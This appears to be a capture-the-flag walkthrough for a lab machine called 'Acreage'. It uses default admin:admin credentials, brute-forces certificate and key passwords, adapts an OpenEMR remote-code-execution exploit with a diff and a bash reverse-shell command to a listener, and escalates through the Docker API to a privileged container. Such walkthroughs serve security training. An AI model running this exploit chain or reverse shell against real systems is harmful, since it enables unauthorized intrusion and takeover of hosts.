

# Acreage

## Enumeration

The initial enumeration phase is to begin by evaluating the system. Two main ports should be visible to user. Http port which is running on port 443 though secured by https.

Upon scanning this with the `dirb` or `gobuster` the folder under the path `private` is identified. Upon visiting this directory a web page for an employer portal is identified.

This is a directory intended for intranet only applications though it seems mis-configured. By attempting to visit the private admin notes area we find the site is protected by HTTP based authentication.

Through some inspection we see that based on the default admin page it states that OpenEMR credentials should work. After trying to look up the default credentials and attempting to use them we find that authentication is successful. These credentials seem to be `admin:admin`.

We find a notes area of which there a few files of which after further investigation we find to be x509 certificate files.



We also attempt to visit the OpenEMR page, but we find that it is blocked by what seems to be x509 verification requirements.

`You don't have permission to access this resource.Reason: Cannot perform Post-Handshake Authentication.`

Since we have certificates that we can make use of it is possible to attempt various techniques to further attempt to use the web application.


We brute force the password to the `p12` file in order to perform operation on the certs and keys stored within it.

There is not much out there on the process though the following tool should work. It might also be possible to do this using a quick bash script:

[p12Cracker](https://github.com/allyomalley/p12Cracker)

It is also possible to write a script to perform the command which would be the following: `openssl pkcs12 -in dockerdev.p12  -passin pass:userpassword`


[Image of PK12]

There should be an option to parse the private key or public key.

Once we have the password we proceed to unpack the `p12`  certs and keys using the following technique: `openssl pkcs12 -in INFILE.p12 -out OUTFILE.key -nodes -nocerts` & `openssl pkcs12 -in INFILE.p12 -out OUTFILE.crt -nokeys`

Using curl, it is possible to test the functionality of the service. We do this by running the following command while ensuring we specify the correct certificates and keys. 

```
[vagrant@dev ~]$ sudo curl --cert http-client.pem --cert-type PEM --key http-client.key --key-type PEM https://192.168.56.10/openemr-5_0_1_3 -vvvvvv
*   Trying 192.168.56.10...
* TCP_NODELAY set
* Connected to 192.168.56.10 (192.168.56.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/pki/tls/certs/ca-bundle.crt
  CApath: none
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Encrypted Extensions (8):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Certificate (11):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, CERT verify (15):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Finished (20):
* TLSv1.3 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / TLS_AES_256_GCM_SHA384
* ALPN, server accepted to use http/1.1
* Server certificate:
*  subject: CN=acreage
*  start date: Dec 12 00:27:26 2021 GMT
*  expire date: Dec 13 00:27:26 2022 GMT
*  subjectAltName: host "192.168.56.10" matched cert's IP address!
*  issuer: CN=Dite Intermediate http CA
*  SSL certificate verify ok.
* TLSv1.3 (OUT), TLS app data, [no content] (0):
> GET /openemr-5_0_1_3 HTTP/1.1
> Host: 192.168.56.10
> User-Agent: curl/7.61.1
> Accept: */*
> 
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Request CERT (13):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Certificate (11):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, CERT verify (15):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS app data, [no content] (0):
< HTTP/1.1 301 Moved Permanently
< Date: Mon, 13 Dec 2021 01:08:07 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1g
< Location: https://192.168.56.10/openemr-5_0_1_3/
< Content-Length: 246
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="https://192.168.56.10/openemr-5_0_1_3/">here</a>.</p>
</body></html>
* Connection #0 to host 192.168.56.10 left intact
```

`curl --cacert ca-signing-chain.pem --cert dockerdev.crt --cert-type PEM --key dockerdev.pem --key-type PEM https://192.168.56.10/openemr-5_0_1_3 -v`

If this was to be run locally we would be required to specify a bundled ca certificate containing our CA and web Intermediate CA. They can be downloaded from the private notes' section on the site.

It is also possible to use the PKCS12 format to authenticate to the system via a browser. Though this is not a hard requirement. The main thing at this stage is to ensure we have valid keys and certificates. 
 
## Exploitation

Once we have reached the UI we can evaluate the application further. We begin by login in using the default credentials. These are `admin:admin` once logged in and the system version has been verified. We proceed to looking and downloading our exploit's at the following location. Though there multiple ways to verify the version.

https://www.exploit-db.com/exploits/45161

What is required is to modify the exploit so that the request package can authenticate and pass data to the web application.

The script can be edited by using the following code and the downloaded certificates from the enumeration phase.

```py
#https://stackoverflow.com/questions/63700904/python-code-for-sending-requests-with-certificate-private-encrypted-key-and-pas
#https://security.stackexchange.com/questions/59136/can-i-add-a-password-to-an-existing-private-key
#
# Since request package does not support encryption. The method or thing to do is to remove that particular encryption.

import requests

cert_file_path = "<Location of exported certificate and private key>"
key_file_path = "<Location of exported certificate and private key>"

url = "https://192.168.56.10/openemr-5_0_1_3/"
cert = (cert_file_path, key_file_path)
r = requests.get(url, cert=cert, verify='<Location of CA Signing cert>/ca-signing-chain.pem')
```

Once the sections in the script are amended which should only be two post requests. Burp suite can also be used to further evaluate things in this stage of the process.

The script editing section should be straight forwards. 

Add the following variable: `cert = (cert_file_path, key_file_path)`

Then append that to every request via the cert variable: `python3 45161.py http://192.168.56.10/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/you-local-system/4444 0>&1'`

This will spawn a netcat shell so ensure you have a listener running before attempting to run the script. When the netcat listener receves a shell. The user is expected to perform enumeration of the system.

This is the diff of the orignal exploit comapred to the modified version which gives us a net cat listener on the remote system.
```shell
> cert_file_path = "dockerdev.crt"
> key_file_path = "dockerdev.pem"
> 
> cert = (cert_file_path, key_file_path)
> 
66c71
<     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login)
---
>     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login, cert=cert, verify="ca-signing-chain.pem")
136c141
<     _cmd = "|| echo " + base64.b64encode(args.cmd) + "|base64 -d|bash"
---
>     _cmd = "|| echo " + base64.b64encode(args.cmd.encode("utf")).decode("utf") + "|base64 -d|bash"
140,141c145,146
<     s.post(args.host + "/interface/super/edit_globals.php", data=p)
<     sp = s.get(args.host + "/interface/main/daemon_frame.php") # M4tt D4em0n w0z h3r3 ;PpPpp
---
>     s.post(args.host + "/interface/super/edit_globals.php", data=p, cert=cert, verify="ca-signing-chain.pem")
>     sp = s.get(args.host + "/interface/main/daemon_frame.php", cert=cert, verify="ca-signing-chain.pem") # M4tt D4em0n w0z h3r3 ;PpPpp
```


## Escalation

The main important thing in this instance is to identify that docker is running on the system. There is a daemon also listening with the associated port. Attempting to curl the port would show that it is protected by mTLS.

The user should find a temp key on the remote system. This is CA-key with private but weak password which should be easily bruteforce for a shell. This file would be located in the `/opt/temp-pki` with read permissions.


```bash
cat Localofwordlist.txt | 
while read p; do 
    openssl rsa -in /etc/dite_pki/certs/dockerdev.key -out your.open.key -passin pass:$p 2>/dev/null
    RC=$?; if [ $RC -eq 0 ]; then 
echo "Password found as: " $p; break; fi ; done
```

This key can be used to generate alternate docker x509 certificate and keys. These can to be used for authentication via the following method. Instead of generating alternate certs and keys it is likely more suitable to transfer keys to the remote system. It is also possible to use the key present on the system. In order to generate the signed keys the password to the intermediate CA has to be brute forced on the remote host system.

We may also have to generate our own key or get the user to generate their own one which I feel iis much more suitable for the task.


```
[vagrant@acreage ~]$ sudo docker -D -H "192.168.56.10:5555" --tlsverify --tlscacert=/etc/pki/dite_certs/ca-docker.pem --tlscert=/etc/pki/dite_certs/docker.pem --tlskey=/etc/pki/dite_certs/docker.key -l debug version
Client: Docker Engine - Community
 Version: 20.10.11     
 API version: 1.41           
 Go version:  go1.16.9       
 Git commit:   dea9396              
 Built:  Thu Nov 18 00:36:58 2021     
 OS/Arch:  linux/amd64 
 Context: default                                                                         Experimental: true                
Server: Docker Engine - Community
 Engine:  
 Version: 20.10.11
 API version:  1.41 (minimum version 1.12)
 Go version: go1.16.9
 Git commit: 847da18 
Built: Thu Nov 18 00:35:20 2021                                                                              OS/Arch: linuxamd64
Experimental:     false containerd: 
Version:          1.42
GitCommit:        7b11cfaabd73bb80907dd23182b9347b4245eb5d 
runc:                                                                             Version:          1.0.2
GitCommit:        v1.0.2-0-g52b36a2 
docker-init: 
Version:          0.19. 
GitCommit:        de40ad0          
```

We can the use this in association with the run command in order to run a privilege container. This container can be mounted to alternate paths or the user to retrieve the proof `.txt` file. 

Authentication in this instance occurs via the HTTPS based docker API service.

There is also a container that can be used on the host system.

```
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
ubuntu       latest    ba6acccedd29   8 weeks ago   72.8MB
```